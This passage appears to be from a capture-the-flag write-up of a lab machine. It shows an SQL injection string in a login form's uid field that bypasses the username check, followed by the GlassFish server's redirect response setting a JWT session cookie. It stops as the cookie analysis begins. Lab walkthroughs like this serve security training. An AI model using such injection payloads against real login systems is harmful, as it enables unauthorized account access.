 
### Login

#### Get Cookie

Earlier I was able to bypass the username and potentially the password
part of the auth, but failed when it checked the fingerprint. I'll add
this correct fingerprint to the query and see what comes back. When I
use the username admin, I still get invalid fingerprint:



    uid=' or username='admin' and ''='&auth_primary=password&auth_secondary=962f4a03aa7ebc0515734cf398b0ccd6



However, when I change to micheal1235, it works:



    HTTP/1.1 302 Found
    Server: GlassFish Server Open Source Edition  5.0.1 
    X-Powered-By: Servlet/3.1 JSP/2.3 (GlassFish Server Open Source Edition  5.0.1  Java/Private Build/1.8)
    Set-Cookie: user=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoick8wQUJYTnlBQ0ZqYjIwdVlXUnRhVzR1YzJWamRYSnBkSGt1YzNKakxtMXZaR1ZzTGxWelpYS1VCTmR6NDErNWF3SUFCRWtBQW1sa1RBQUxabWx1WjJWeWNISnBiblIwQUJKTWFtRjJZUzlzWVc1bkwxTjBjbWx1Wnp0TUFBaHdZWE56ZDI5eVpIRUFmZ0FCVEFBSWRYTmxjbTVoYldWeEFINEFBWGh3QUFBQUFuUUFRRGRsWmpVeVl6STFNV1k0TURRMFkySXhPRGN3TVRNNU9USTRPVEZrTUdVMU9HTmxPVEU1TkdSbE4yWTFNelZpTVdJMFptRTJZbUptWlRBNE5qYzRaalowQUJSTVYyYzNaMVZTTVVWdFdEZFZUbmh6U25oeFduUUFDMjFwWTJobFlXd3hNak0xIn0.6dfequ2JzMYm2A6wgo6SU_pJWzWgqmGaChbRiXiEgTw
    Location: http://10.10.11.127:8080/welcome
    Content-Language: en-US
    Content-Type: text.md;charset=ISO-8859-1
    Connection: close
    Content-Length: 182

    .md>
    <head><title>Document moved</title></head>
    <body><h1>Document moved</h1>
    This document has moved <a href="http://10.10.11.127:8080/welcome">here</a>.<p>
    </body>
    <.md>



It's setting a cookie and redirecting me to `/welcome`.

#### JWT

The Cookie itself is a JWT:
